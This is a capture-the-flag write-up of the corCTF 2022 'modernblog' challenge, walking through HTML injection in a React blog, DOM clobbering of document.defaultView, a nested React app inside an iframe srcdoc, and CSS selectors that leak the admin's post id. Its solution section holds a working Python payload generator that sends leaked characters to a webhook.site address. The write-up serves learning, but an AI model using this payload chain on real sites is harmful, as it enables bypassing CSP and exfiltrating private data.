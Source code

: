 After day by day, I'm finally able to fully understand the **modernblog** challenge :D This is a so amazing web challenge written in React.

It is worth to take a notice that I cannot solve this challenge by my own. What I did is reading the [author writeup](https://brycec.me/posts/corctf_2022_challenges#modernblog), demo the described techniques, and learn much from that! This write up is just like a notes of my understanding, my gainings after that process (and it may be a little bit difference the author writeup, since I wrote on my own understanding and viewpoint :D).

# 3. modernblog

## a. Challenge description

![image.png](https://images.viblo.asia/a7a1deed-2899-4353-b4fa-435f6069121d.png)

Look at the Admin Bot, we can definitely that this is client-side challenge. The source is React + Express backend, and most of the code is used for credentials management, and content management (creating, view blog content). The point is there are blog of admin containing the flag, with a randomId.

```js
(() => {
    const flagId = crypto.randomBytes(6).toString("hex");
    const flag = process.env.FLAG || "flag{test_flag}";
    users.set("admin", {
        pass: sha256(process.env.ADMIN_PASSWORD || "test_password"),
        posts: Object.freeze([flagId]),
    });
    posts.set(flagId, {
        id: flagId,
        title: "Flag",
        body: flag,
    });
})();
```

Since we can view any post given the id known (or the access link), the point is to get the `flagId`, or admin account takeover. And, as I state, this is a client-side challenge, so we have to take a look at the client side code to see where the vulnerability occurs: it is the `body` of a post

```js
<Stack
  spacing={4}
  w="full"
  maxW="md"
  bg={useColorModeValue("gray.50", "gray.700")}
  rounded="xl"
  boxShadow="2xl"
  p={6}
  my={12}
>
  <Heading lineHeight={1.1} fontSize={{ base: "2xl", md: "3xl" }}>
    {title}
  </Heading>

  {/* CSP is on, so this should be fine, right? */}
  {/* Clueless */}
  <div dangerouslySetInnerHTML={{ __html: body }}></div>
</Stack>

<Button variant="link" as={Link} to="/home">
  Back
</Button>
</Stack>
```

Let's move to the analysis phase to see how could we exploit this spot :D

## b. Challenge analysis

The first thing I can think of is XSS to account take over. However, as the comment says, there is CSP set at server.
![image.png](https://images.viblo.asia/7f8a240d-febd-414d-b567-96e91e193c63.png)

According to the CSP, there is no room for our custom script to run on the website, which means the account takeover approach is impossible. 

At this point, there is only 1 option left: get the `flagId` of the admin post, which is in `/home` page of admin user!

However, it does not directly HTML encode special characters, so we still can inject markup, HTML, CSS. But what we can do with this? What about CSS Injection / XS-leak? We can inject CSS into the post body, but it will execute on post page, while the `flagId` is in the `/home` page 🙃 So, what else we can do with HTML and CSS?

Just hold down a little bit. Although we can't execute our custom script, is that means we have no control over JS execution of the web? The answer is **NO**! We can do that with DOM clobbering attack.

### [Advanced] DOM clobbering

DOM clobbering is a well-known attack to change a value of `window` properties. For example:

![image.png](https://images.viblo.asia/b62272a9-f741-4be0-a484-9e8686f841d0.png)

However, reading the author writeup, I now know that DOM clobbering is only able to the the value of `window` properties, but also `document` properties! The key point is here

> So, the first point tells us that for any exposed **embed**, **form**, **iframe**, **img**, or **exposed object element**, the value of the “name” attribute will be a property of the Document object.

Let's take a demo to see that behavior:

![image.png](https://images.viblo.asia/972b3020-ecd7-430c-b5e4-f2ad52e68866.png)

Okay, but how to use this technique to solve the **modernblog** challenge? To use this, we need to answer a critical question:

> What property needed to be changed in order to change behavior of the **modernblog** web app?

To figure out that property, we need to understand the  how the web app works in depth. And, it will lead us to me to React Router!

### BrowserRouter

At the `main.jsx` file, we can see this application is route using the BrowserRouter. It actually a single page application, and it will choose which page to render based the `path` property.

```js
ReactDOM.createRoot(document.getElementById('root')).render(
  <React.StrictMode>
    <ChakraProvider>
      <BrowserRouter>
        <Routes>
          <Route path="/" element={<Index />} />
          <Route path="/register" element={<Register />} />
          <Route path="/login" element={<Login />} />
          <Route path="/home" element={<Home />} />
          <Route path="/post/:id" element={<Post />} />
        </Routes>
      </BrowserRouter>
    </ChakraProvider>
  </React.StrictMode>
);
```

Take a look at BrowserRouter [doc](https://reactrouter.com/docs/en/v6/routers/browser-router), 
there is a line worth noticing

> <BrowserRouter window> defaults to using the current document's defaultView, but it may also be used to track changes to another window's URL, in an <iframe>
    
 That is, `document.defaultView`, right? 
    
The doc also state that `BrowserRouter` "browse using the built-in history stack", so taking a look at the History API can help us confirm whether `document.defaultView` is what we are looking for. And it is!

![image.png](https://images.viblo.asia/ac7a98de-fdd9-4155-8329-2aa994faf942.png)
    
At this point, we know that the key point of this challenge is the `document.defaultView` property. Let's test DOM clobbering payload at the **modernblog** website whether it work or not.
    
![image.png](https://images.viblo.asia/1e5c1361-ea5f-4dab-bc6f-5c6c436146c9.png)
    
Isn't that magic :D It clobbered! With that, we can now open the `/home` page, and perform CSS Injection to leak the `flagId`!
    
But, how to make the `createBrowserHistory` run again? If not so, there is no `/home` page loaded, hence no bit leaked.
    
🙃

The `createBrowserHistory` only run when the application load, but we can't make the **modernblog** web reload. Even if we could do, we would not like to do this as our payload will go! 
    
That go to a super cool idea of this challenge: **create a React app inside a React app** 🤯

### React in React
    
We can use the `srcdoc` attribute of the `iframe` tag to create another React app, using the provided public JS file. Let's try it:

```html
<iframe srcdoc="
<!DOCTYPE html>
<html>
  <head>
    <script type='module' crossorigin src='/assets/index.7352e15a.js'></script>
  </head>
  <body>
    <div id='root'></div>
  </body>
</html>
"></iframe>
```

    
![image.png](https://images.viblo.asia/da2cb05a-cb3b-453c-8770-69ed8827c2bd.png)
    
We get an error, as it fails to change `document.defaultview.History` while it is currently pointing to the current window int `about:srcdoc`. But, if we combine if React gadget, we got the following:
    
```js
<iframe srcdoc="
<!DOCTYPE html>
<html>
  <head>
	<style> * {color : red} </style>
    <script type='module' crossorigin src='/assets/index.7352e15a.js'></script>
  </head>
  <body>
    <div id='root'></div>
	<iframe name='defaultView' src='/home'></iframe>
  </body>
</html>
"></iframe>
````

![image.png](https://images.viblo.asia/a612f377-6e4b-4cbe-b353-0792b555a035.png)
    
The text color is red, and the content is exactly of the `/home` page. We finally reach the point! Load the `/home` page, inject CSS to leak the `flagId` bit by bit to get the flag!!!!!!!!!

## c. Challenge solution
    
Based on the above analysis, we now can use classical CSS techniques to leak the `flagId`. Using the script generated by the python code below, then create a blog whose body of it, and get each character of `flagId` at webhook:
    
```python
WEBHOOK = "https://webhook.site/"
alphabet = "01234556789abcdef"
known = ""

css = ""

for c in alphabet:
    query = known + c
    css += f"""a[href^='/post/{query}'] {{
    background-image: url('{WEBHOOK}?{query}')
}}
"""
payload = """<iframe srcdoc="
<!DOCTYPE html>
<html>
  <head>
    <style>
    """ + css + """
    </style>
    <script type='module' crossorigin src='/assets/index.7352e15a.js'></script>
  </head>
  <body>
    <iframe name='defaultView' src='/home'></iframe>
    <div id='root'></div>
  </body>
</html>
" style='width:50vw; height: 50vh'></iframe>"""

with open('payload.txt', 'w') as f:
    f.write(payload)
```
    
Attempt 12 times to get the full `flagId`, and the flag!

![image.png](https://images.viblo.asia/439211a7-16a3-4c9b-a477-911d66e0a1a3.png)
    
![image.png](https://images.viblo.asia/26d0d8e6-e7f2-464a-b471-a3ad0c5a9256.png)
    
At the end of the day, I learn a lot from this challenge, I also found another [CVE chain](https://www.hackthebox.com/blog/UNI-CTF-21-complex-web-exploit-chain-0day-bypass-impossible-CSP) to study from Strelic :D. Thanks so much for wonderful efforts making interesting challenges and writing inspring writeup!